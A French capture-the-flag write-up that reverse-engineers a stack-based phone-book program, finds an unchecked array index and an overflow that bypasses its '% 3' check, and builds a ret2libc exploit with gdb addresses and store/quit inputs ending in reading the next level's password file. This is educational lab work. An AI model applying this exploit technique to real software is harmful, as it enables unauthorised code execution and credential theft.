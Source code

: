 En decompilant le programme et en reconstituant le code source on remarque des potentiels failles. Le main est une boucle While attendant un input qui soit egale a store / read / quit.
Le main met a zero tous l'environment ainsi que argv.
Un tableau de int de 100 element est initialiser a zero, c'est notre liste de contact pour le telephone, il est stocker sur la stack.

Store lance la fonction store_number qui prend en argument l'adresse de notre tableau, 2 valeur vont etre demander via le stdin. Nous avons Number puis index ( les deux sont des unsigned int ), Number va etre stocker a l'index fourni ( Attention un bitshiftleft de 2 est realiser sur index ) 
Mais l'index n'est pas verifier sauf par une condition ` Index % 3 == 0  ` et dans ce cas il va return 1 et ne rien stocker.

Read lance la fonction read_number avec comme argument l'adresse de notre tableau.
la fonction va demander un index afin d'afficher la valeur a cette index. ( Attention aussi au bitShiftLeft de 2 sur index )
A contrario de Store l'index n'a pas de verification, ce qui signifie que l'on peut lire ou l'on souhaite.

Quit ne lance pas de fonction, il va couper la boucle while et return 1.

Sachant que notre tableau est stocker dans la stack, on peut s'y promener et aller chercher au dessus de notre Tableau pour avoir par exemple les registres.
Il nous faut d'abbord l'adresse de notre tableau et on l'obtient facilement avec gdb, il suffit de regarder l'argument de store_number ou bien read_number.
```
 b *0x080488e7  
 p $esp+0x24
 ```
On obtient : 0xffffd554

Ensuite afin de chercher quelque adresse des registre on utilise ` info frame `
```
Stack level 0, frame at 0xffffd720:
 eip = 0x8048882 in main; saved eip 0xf7e45513
 called by frame at 0xffffd790
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd70c, ebp at 0xffffd718, esi at 0xffffd710,
  edi at 0xffffd714, eip at 0xffffd71c
```

La frame commence a 0xffffd720, et s'en suit notre registre enregister a differentes adresses.
EIP nous interesse car grace a lui nous pouvons utiliser un ret2libc et executer system(),
L'idee sera d'ecrire l'addresse de system a l'emplacement d'EIP puis de preparer le retour et l'argument de system de cette maniere

Adresse de system() + Adresse de exit() + Adresse de Args

```
 print &system --> 0xf7e6aed0
 print &exit --> 0xf7e5eb70
 find &system,+9999999,"/bin/sh" -- > 0xf7f897ec
```

Maintenant pour trouver l'index qui nous permet d'acceder a EIP nous devons le calculer,
pour rappel store_number et read_number execute un  bitshiftLEFT de 2 sur l'index qu'on lui donne.

Calculons la difference de taille entre l'adresse de EIP et le debut de notre tableau.
0xffffd71c - 0xffffd554 = 0x1c8 = 456
On termine par effectuer un bitshiftRIGHT de 2 sur 456 et on obtient notre index a utiliser.
456 / (2^2) = 114

Sauf que store_number verifie si l'index n'est pas utilisable en faisant INDEX % 3 == 0,
On peut toujours essayer de lire a cette index et cela fonctionne, d'ailleurs on obtient 4158936339 qui vaut 0xF7E45513 en hex, c'est bel et bien notre EIP.

On remarque que l'index est verifier avant d'avoir son bitshift left, que si on overflow lors du bitshift on peux passer n'importe qu'elle index tant que le calcul 
` ( UINTMAX+1 / (2^2) + INDEX QUE L'ON VEUT ) % 3 ) != 0 ` est valide
Si on utilise 114 en tant qu'INDEX dans notre calcul on obtient:
	4294967296 / 2^2 = 1073741824
	1073741824 + 114 = 1073741938
	1073741938 % 3 = 1
Avec 1073741938 on peut normalement acceder a l'index 114 tout en passant la verification.

Essayer d'utiliser read avec et on obtient 4158936339 = 0xf7e45513 en hex ( donc EIP )
Si on utiliser store avec cette index et que l'on quit le program segfault car EIP n'est plus reconnu.

On peut donc appliquer notre ret2libc, en ecrivant a l'indice 114 system(), a l'indice 115 exit() et enfin a l'indice 116 l'adresse de la string /bin/sh.
Il faut convertir les adresse en decimal afin de les ecrires correctement dans la stack.

&system --> 0xf7e6aed0 = 4159090384
&exit --> 0xf7e5eb70  = 4159040368
"/bin/sh" -- > 0xf7f897ec = 4160264172

```
 store
 4159090384
 1073741938
 
 store
 4159040368
 115

 store
 4160264172
 116

 quit

 cat /home/users/level08/.pass
```
